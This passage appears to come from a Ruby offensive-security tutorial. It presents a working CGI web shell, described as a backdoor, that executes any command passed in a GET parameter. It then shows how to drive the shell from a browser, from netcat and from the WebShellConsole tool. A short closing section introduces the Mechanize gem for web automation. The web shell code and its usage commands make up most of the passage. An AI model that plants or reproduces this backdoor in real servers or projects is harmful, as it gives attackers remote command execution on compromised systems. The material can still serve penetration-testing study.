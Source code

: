 ### Web Shell - command execution via GET

if you have a server that supports ruby CGI, you can use the following as backdoor

```ruby
#!/usr/bin/env ruby
require 'cgi'
cgi = CGI.new
puts cgi.header
system(cgi['cmd'])
```

Now you can simply use a web browser, Netcat or WebShellConsole to execute your commands. ex. **Browser**

```text
http://host/cgi/shell.rb?cmd=ls -la
```

**Netcat**

```text
echo "GET /cgi/shell.rb?cmd=ls%20-la" | nc host 80
```

**WebShellConsole \(**[**repository**](https://github.com/KINGSABRI/WebShellConsole)**\)**

run wsc

```text
ruby wsc.rb
```

Add Shell URL

```text
Shell -> set http://host/cgi/shell.rb?cmd=
```

Now prompt your commands

```text
Shell -> ls -la
```

## Mechanize

Since we're talking about dealing with web in ruby, we can't forget **Mechanize** gem, the most known library for dealing wit web.

**The Official description says**, the Mechanize library is used for automating interaction with websites. Mechanize automatically stores and sends cookies, follows redirects, and can follow links and submit forms. Form fields can be populated and submitted. Mechanize also keeps track of the sites that you have visited as a history.

More about Mechanize gem

* [Getting Started With Mechanize](http://docs.seattlerb.org/mechanize/GUIDE_rdoc.html)
* [Mechanize examples](http://docs.seattlerb.org/mechanize/EXAMPLES_rdoc.html)
* [RailsCasts \| Mechanize tutorial](http://railscasts.com/episodes/191-mechanize)
